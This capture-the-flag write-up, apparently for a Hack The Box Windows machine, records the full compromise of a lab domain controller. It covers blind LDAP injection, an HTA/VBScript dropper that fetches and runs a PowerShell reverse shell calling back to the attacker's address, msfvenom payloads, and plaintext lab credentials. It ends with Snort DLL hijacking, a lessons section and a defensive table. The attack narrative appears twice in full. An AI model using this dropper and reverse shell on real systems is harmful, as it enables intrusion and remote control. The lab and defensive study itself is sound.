

### Phase 1: Reconnaissance (Information Gathering)

The first step in any engagement is a thorough reconnaissance of the target system to understand its attack surface.

A full TCP port scan was initiated to identify all open services on the target IP address, providing a comprehensive map of potential entry points.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.230.179 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.230.179
```


We can see typical Domain Contoller services and also we can see here domain name which we will add to our host file:

```bash
echo "10.129.230.179 analysis.htb" | sudo tee -a /etc/hosts
```



### Phase 2: Weaponization (Crafting Payloads or Attack Vectors)

We can see a web server that runs on IIS 10.0 and all links refere to the same home page so let's fuzz it:

```bash
ffuf -u http://analysis.htb/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt:FUZZ
```


We got nothing interesting so let's check subdomains:

```bash
ffuf -u http://analysis.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -H "Host:FUZZ.analysis.htb"
```

We got internal which gave us 403 error. Now we going to fuzz it's directories:

```bash
echo "10.129.230.179 internal.analysis.htb" | sudo tee -a /etc/hosts
ffuf -u http://internal.analysis.htb/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt:FUZZ -recursion
```


Now I'll fuzz every endpoint with php extension here are interesting foundings:

http://internal.analysis.htb/users/list.php # We have to pass some GET parameter and maybe then we will be able to brute force users or get some credentials
http://internal.analysis.htb/employees/login.php # We have to get valid credentials to use this endpoint

Using burp parametr names we will fuzz parameter and filter results:

```bash
ffuf -u http://internal.analysis.htb/users/list.php?FUZZ=pwned -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -fs 17
```


I tried sqlmap:

```bash
sqlmap -u "http://internal.analysis.htb/users/list.php?name=123" --batch
```


Then I got a hit with * . So we can assume with information that we have:

Domain Controller & SQL doesn't work & Wildcard worked = LDAP filter

We had a hit with wildcard which returned technician so we can assume it's a givenName also parameter name should be a cn attribute so our request should look like this:

http://internal.analysis.htb/users/list.php?name=technician)(givenName=technician

It returned back same table with the same reuslts meaning that we're on the right way. 

After some researching and enumerating we can sum up inforamtion:
```
Blind LDAP Injection

"CONTACT_" - false
"technician" - true

If * is a part of description then next will be ** which will break the query so we have to note that. We can use Burp or python to automate the whole process:
```
```
technician:97NTtl*4QP96Bv
```

### Phase 3: Delivery (Delivering Payloads to Victim)

We will login here:

http://internal.analysis.htb/employees/login.php

And since it asking for email as username we will use

technician@analysis.htb

The only tab that seems to be useful and vulnerable is SOC Report. Although there're 2 unresolved problem with kerberos auth (it can be a hint) and hta file.


We will upload msfvenom payload to gain RCE (I tried to post rev_shell and because of _ it blocked it so don't use any symbols):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f exe > revshell.exe
```

Let's upload it:


File is safe and we got nothing and it's logical because it's running in the sandbox so don't set up listener. As stated in tickets we will try to create a payload with hta extension:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f hta-psh > revshell.hta
```

Now it says that file isn't safe so we have to bypass it. We will create hta file that will execute our rev shell so we need to set up a lister and a server:

```bash
sudo nc -lnvp 7777
```
```bash
sudo python3 -m http.server 9090
```

```VBScript
<!DOCTYPE html>
<html>
<body>
<script type="text/vbscript">
Sub Window_OnLoad
    Dim a, b, c, d, e
    e = "http://10.10.14.61:9090/revshell.ps1"
    d = "C:\\Windows\\Temp\\revshell.ps1"
    Set a = CreateObject("MSXML2.XMLHTTP")
    Set b = CreateObject("WScript.Shell")
    Set c = CreateObject("ADODB.Stream")
    a.Open "GET", e, False
    a.Send
    If a.Status = 200 Then
        c.Open
        c.Type = 1
        c.Write a.ResponseBody
        c.SaveToFile d, 2
        c.Close
        b.Run "powershell -ExecutionPolicy Bypass -File " & d, 0, False
    End If
    Set c = Nothing
    Set b = Nothing
    Set a = Nothing
    self.close
End Sub
</script>
</body>
</html>
```

```PowerShell
$h = '10.10.14.61'
$p = 7777
$c = [System.Net.Sockets.TcpClient]::new($h, $p)
$s = $c.GetStream()
$w = [System.IO.StreamWriter]::new($s)
$pr = ("PS " + (Get-Location).Path + "> ")
$w.Write($pr)
$w.Flush()
while ($c.Connected) {
    try {
        $b = New-Object byte[] 1024
        $r = 0
        $cmd = ""
        while ($s.DataAvailable -and ($r = $s.Read($b, 0, $b.Length))) {
            $cmd += [Text.Encoding]::ASCII.GetString($b, 0, $r)
        }
        if ($cmd.Trim()) {
            $res = try {
                Invoke-Expression $cmd 2>&1 | Out-String
            } catch {
                $_.Exception.Message
            }
            $w.WriteLine($res)
            $w.Write(("PS " + (Get-Location).Path + "> "))
            $w.Flush()
        }
    } catch {
        $w.WriteLine("ERR: " + $_.Exception.Message)
        $w.Flush()
    }
    Start-Sleep -Milliseconds 400
}
$w.Close()
$s.Close()
$c.Close()
```

### Phase 4: Exploitation (Executing Malicious Code)


We're in!

analysis\svc_web

### Phase 5: Installation (Establishing Foothold)

I went through all logs folder and some log files were so big that it broke my session so I just restarted it, this happened because I was fuzzing a lot and here are only me requests so I found request from 127.0.0.1 with username and password:

```
net user jdoe
```
```
Appartient aux groupes locaux                  *Utilisateurs de gesti
```
```
jdoe:7y4Z4^*y9Zzj
```

### Phase 6: Command and Control (C2 Channel)

```bash
evil-winrm -u jdoe -p "7y4Z4^*y9Zzj" -i analysis.htb
```


# Now that we got user flag I have to take some rest due to lack of time. Enumerating and creating custom hta and ps1 files got some time, but the most time consuming was burp suite sniper attack, I tried to create a python scripts but in the end it was looping charcter a after it got right password. All this took a lot of time and research and now I'll go and rest and return back tommorow. I'll maybe restart or continue with the same machine but anyway we got our creds.
# I returned back and ip is the same: 10.129.230.179 so i will add hosts and we will continue

### Phase 7: Privilege Escalation (Lateral Movement / Escalation)

In order to find ways to privilege escalation and to understand the whole structure we will use bloodhound:

```bash
bloodhound-python -u jdoe -p "7y4Z4^*y9Zzj" -d analysis.htb -ns 10.129.230.179 -c all --zip
```
```bash
sudo neo4j start
```

After we import data let's mark our pwned users and look for attack vectors:


It's not a good attack vector. This one is more realistic one:


But we haven't creds for wsmith and soc_analyst. After sonme custom queries and checking groups and paths none of them seem to be important so let's head back to evil-winrm and try to find something.


We have both users we need here. There're some tools for blue team for example snort. I couldn't find anything intersting in log file but I founf lib directory with dll files. We can perform dll hijacking attack with a file called sf_engine.dll


```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f dll > sf_engine.dll
sudo msfconsole
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set LHOST tun0
set LPORT 7777
run
```

Then in evil-winrm in C:\Snort\lib\snort_dynamicpreprocessor:

```bash
cd C:\Snort\lib\snort_dynamicpreprocessor
upload /home/perunchess/sf_engine.dll
```

After a few minutes got back shell as analysis\administrateur:


;### Phase 1: Reconnaissance (Information Gathering)

The first step in any engagement is a thorough reconnaissance of the target system to understand its attack surface.

A full TCP port scan was initiated to identify all open services on the target IP address, providing a comprehensive map of potential entry points.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.230.179 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.230.179
```


We can see typical Domain Contoller services and also we can see here domain name which we will add to our host file:

```bash
echo "10.129.230.179 analysis.htb" | sudo tee -a /etc/hosts
```


### Phase 2: Weaponization (Crafting Payloads or Attack Vectors)

We can see a web server that runs on IIS 10.0 and all links refere to the same home page so let's fuzz it:

```bash
ffuf -u http://analysis.htb/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt:FUZZ
```


We got nothing interesting so let's check subdomains:

```bash
ffuf -u http://analysis.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -H "Host:FUZZ.analysis.htb"
```

We got internal which gave us 403 error. Now we going to fuzz it's directories:

```bash
echo "10.129.230.179 internal.analysis.htb" | sudo tee -a /etc/hosts
ffuf -u http://internal.analysis.htb/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt:FUZZ -recursion
```


Now I'll fuzz every endpoint with php extension here are interesting foundings:

http://internal.analysis.htb/users/list.php # We have to pass some GET parameter and maybe then we will be able to brute force users or get some credentials
http://internal.analysis.htb/employees/login.php # We have to get valid credentials to use this endpoint

Using burp parametr names we will fuzz parameter and filter results:

```bash
ffuf -u http://internal.analysis.htb/users/list.php?FUZZ=pwned -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -fs 17
```


I tried sqlmap:

```bash
sqlmap -u "http://internal.analysis.htb/users/list.php?name=123" --batch
```


Then I got a hit with * . So we can assume with information that we have:

Domain Controller & SQL doesn't work & Wildcard worked = LDAP filter

We had a hit with wildcard which returned technician so we can assume it's a givenName also parameter name should be a cn attribute so our request should look like this:

http://internal.analysis.htb/users/list.php?name=technician)(givenName=technician

It returned back same table with the same reuslts meaning that we're on the right way. 

After some researching and enumerating we can sum up inforamtion:
```
Blind LDAP Injection

"CONTACT_" - false
"technician" - true

If * is a part of description then next will be ** which will break the query so we have to note that. We can use Burp or python to automate the whole process:
```
```
technician:97NTtl*4QP96Bv
```

### Phase 3: Delivery (Delivering Payloads to Victim)

We will login here:

http://internal.analysis.htb/employees/login.php

And since it asking for email as username we will use

technician@analysis.htb

The only tab that seems to be useful and vulnerable is SOC Report. Although there're 2 unresolved problem with kerberos auth (it can be a hint) and hta file.


We will upload msfvenom payload to gain RCE (I tried to post rev_shell and because of _ it blocked it so don't use any symbols):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f exe > revshell.exe
```

Let's upload it:


File is safe and we got nothing and it's logical because it's running in the sandbox so don't set up listener. As stated in tickets we will try to create a payload with hta extension:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f hta-psh > revshell.hta
```

Now it says that file isn't safe so we have to bypass it. We will create hta file that will execute our rev shell so we need to set up a lister and a server:

```bash
sudo nc -lnvp 7777
```
```bash
sudo python3 -m http.server 9090
```

```VBScript
<!DOCTYPE html>
<html>
<body>
<script type="text/vbscript">
Sub Window_OnLoad
    Dim a, b, c, d, e
    e = "http://10.10.14.61:9090/revshell.ps1"
    d = "C:\\Windows\\Temp\\revshell.ps1"
    Set a = CreateObject("MSXML2.XMLHTTP")
    Set b = CreateObject("WScript.Shell")
    Set c = CreateObject("ADODB.Stream")
    a.Open "GET", e, False
    a.Send
    If a.Status = 200 Then
        c.Open
        c.Type = 1
        c.Write a.ResponseBody
        c.SaveToFile d, 2
        c.Close
        b.Run "powershell -ExecutionPolicy Bypass -File " & d, 0, False
    End If
    Set c = Nothing
    Set b = Nothing
    Set a = Nothing
    self.close
End Sub
</script>
</body>
</html>
```

```PowerShell
$h = '10.10.14.61'
$p = 7777
$c = [System.Net.Sockets.TcpClient]::new($h, $p)
$s = $c.GetStream()
$w = [System.IO.StreamWriter]::new($s)
$pr = ("PS " + (Get-Location).Path + "> ")
$w.Write($pr)
$w.Flush()
while ($c.Connected) {
    try {
        $b = New-Object byte[] 1024
        $r = 0
        $cmd = ""
        while ($s.DataAvailable -and ($r = $s.Read($b, 0, $b.Length))) {
            $cmd += [Text.Encoding]::ASCII.GetString($b, 0, $r)
        }
        if ($cmd.Trim()) {
            $res = try {
                Invoke-Expression $cmd 2>&1 | Out-String
            } catch {
                $_.Exception.Message
            }
            $w.WriteLine($res)
            $w.Write(("PS " + (Get-Location).Path + "> "))
            $w.Flush()
        }
    } catch {
        $w.WriteLine("ERR: " + $_.Exception.Message)
        $w.Flush()
    }
    Start-Sleep -Milliseconds 400
}
$w.Close()
$s.Close()
$c.Close()
```

### Phase 4: Exploitation (Executing Malicious Code)


We're in!

analysis\svc_web

### Phase 5: Installation (Establishing Foothold)

I went through all logs folder and some log files were so big that it broke my session so I just restarted it, this happened because I was fuzzing a lot and here are only me requests so I found request from 127.0.0.1 with username and password:

```
net user jdoe
```
```
Appartient aux groupes locaux                  *Utilisateurs de gesti
```
```
jdoe:7y4Z4^*y9Zzj
```

### Phase 6: Command and Control (C2 Channel)

```bash
evil-winrm -u jdoe -p "7y4Z4^*y9Zzj" -i analysis.htb
```


# Now that we got user flag I have to take some rest due to lack of time. Enumerating and creating custom hta and ps1 files got some time, but the most time consuming was burp suite sniper attack, I tried to create a python scripts but in the end it was looping charcter a after it got right password. All this took a lot of time and research and now I'll go and rest and return back tommorow. I'll maybe restart or continue with the same machine but anyway we got our creds.
# I returned back and ip is the same: 10.129.230.179 so i will add hosts and we will continue

### Phase 7: Privilege Escalation (Lateral Movement / Escalation)

In order to find ways to privilege escalation and to understand the whole structure we will use bloodhound:

```bash
bloodhound-python -u jdoe -p "7y4Z4^*y9Zzj" -d analysis.htb -ns 10.129.230.179 -c all --zip
```
```bash
sudo neo4j start
```

After we import data let's mark our pwned users and look for attack vectors:


It's not a good attack vector. This one is more realistic one:


But we haven't creds for wsmith and soc_analyst. After sonme custom queries and checking groups and paths none of them seem to be important so let's head back to evil-winrm and try to find something.


We have both users we need here. There're some tools for blue team for example snort. I couldn't find anything intersting in log file but I founf lib directory with dll files. We can perform dll hijacking attack with a file called sf_engine.dll


```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.61 LPORT=7777 -f dll > sf_engine.dll
sudo msfconsole
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set LHOST tun0
set LPORT 7777
run
```

Then in evil-winrm in C:\Snort\lib\snort_dynamicpreprocessor:

```bash
cd C:\Snort\lib\snort_dynamicpreprocessor
upload /home/perunchess/sf_engine.dll
```

After a few minutes got back shell as analysis\administrateur:


### What I learnt

- Blind LDAP Injection: I learned how to identify and exploit LDAP-based filters through response-based fuzzing using Burp and ffuf. Understanding attribute-based filtering logic (e.g., cn, givenName) helped craft precise payloads.
- HTA Payload Execution: Gained insight into how HTA files interact with sandboxing mechanisms, and how to craft custom VBScript inside .hta to bypass AV/sandbox limitations using ADODB.Stream and MSXML2.XMLHTTP.
- Snort DLL Hijacking: Discovered how legacy blue team tools like Snort can be leveraged for privilege escalation via DLL hijacking by analyzing their plugin loading mechanism (sf_engine.dll).
- VBScript + PowerShell chaining: Implemented a full chain from HTML/HTA to VBScript to PowerShell, showing a clear understanding of legacy execution vectors on Windows.

### Reflection

- When traditional payloads failed (e.g., .exe blocked or sandboxed), I had to pivot and build my own HTA + PowerShell dropper chain.
- I wasted a lot of time brute-forcing with Burp Sniper, which later made me reflect that automation via Python or ffuf is better — but only if you handle character encoding and length-based filtering right.
- Enumeration of huge log files caused session drops — that reminded me of the importance of stealth and optimizing post-exploitation actions to avoid unnecessary delays.
- I learned to trust indicators (403s, internal subdomains, wildcard behavior) and to correlate reconnaissance data early to save time later.


###  Redemption (Blue Team Perspective — How to Prevent This)

| Phase                                | Defensive Recommendations                                                                                                                                                                                                                                               |
| ------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Recon / Enumeration**              | - Implement WAF rules to detect and block aggressive directory bruteforce (ffuf/dirbuster signatures).<br>- Disable HTTP response hints like IIS version headers.<br>- Monitor excessive 403 responses per IP — often a sign of subdomain or vhost fuzzing.             |
| **LDAP Injection**                   | - Never interpolate user input directly into LDAP filters.<br>- Use parameterized LDAP queries (e.g., `DirectorySearcher.Filter`) and escape special characters.<br>- Monitor unusual or malformed LDAP filters in logs.                                                |
| **HTA Execution / Payload Delivery** | - Block `.hta` execution via GPO (`Windows Script Host settings`).<br>- Enable AppLocker or WDAC to restrict execution of unknown scripts.<br>- Monitor for `mshta.exe` execution or spawning of PowerShell.                                                            |
| **Credential Disclosure**            | - Avoid storing plaintext credentials in logs.<br>- Rotate service credentials frequently.<br>- Monitor localhost/internal-only HTTP traffic that returns credentials or user information.                                                                              |
| **Snort DLL Hijacking**              | - Audit software for unsigned or user-writable DLL search paths.<br>- Use Sysmon to monitor suspicious DLL loading in uncommon directories (e.g., `C:\Snort\lib`).<br>- Apply DLL Safe Loading flags in applications (`SetDefaultDllDirectories`).                      |
| **C2 / Post-Exploitation**           | - Monitor and alert on outbound PowerShell over HTTP.<br>- Use network segmentation to isolate AD workstations from unnecessary internet access.<br>- Detect usage of known C2 protocols (reverse TCP, Meterpreter) via IDS/IPS rules.                                  |
| **Privilege Escalation**             | - Harden Snort service and blue team tools; restrict access to plugin directories.<br>- Periodically scan for hijackable services/DLLs using tools like `Invoke-DllHijack` or `SharpUp`.<br>- Ensure admin privileges are minimized and monitored for unusual behavior. |


